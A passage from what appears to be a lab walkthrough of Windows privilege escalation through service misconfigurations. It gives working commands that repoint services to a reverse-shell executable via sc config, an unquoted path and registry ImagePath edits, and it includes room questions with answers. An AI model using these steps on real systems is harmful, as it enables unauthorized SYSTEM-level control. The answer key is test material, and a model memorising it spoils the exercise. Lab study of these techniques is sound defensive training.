    sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""

Start a listener on Kali and then start the service to spawn a reverse shell running with `SYSTEM` privileges:

    net start daclsvc

### Questions

**What is the original `BINARY_PATH_NAM`E of the `daclsvc` service?**

Answer: `C:\Program Files\DACL Service\daclservice.exe`

## Service exploits - Unquoted service path

Query the `unquotedsvc` service and note that it runs with `SYSTEM` privileges (`SERVICE_START_NAME`) and that the 
`BINARY_PATH_NAME` is unquoted and contains spaces.

    sc qc unquotedsvc

Using `accesschk.exe`, note that the `BUILTIN\Users` group is allowed to write to the 
`C:\Program Files\Unquoted Path Service\` directory:

    C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"

Copy the reverse.exe executable you created to this directory and rename it `Common.exe`:

    copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

    net start unquotedsvc

### Questions

**What is the `BINARY_PATH_NAME` of the `unquotedsvc` service?**

Answer: `C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`

## Service exploits - Weak registry permissions

Query the `regsvc` service and note that it runs with `SYSTEM` privileges (`SERVICE_START_NAME`).

    sc qc regsvc

Using `accesschk.exe`, note that the registry entry for the `regsvc` service is writable by the 
`NT AUTHORITY\INTERACTIVE` group (essentially all logged-on users):

    C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc

Overwrite the `ImagePath` registry key to point to the `reverse.exe` executable you created:

    reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f

Start a listener on Kali and then start the service to spawn a reverse shell running with `SYSTEM` privileges:
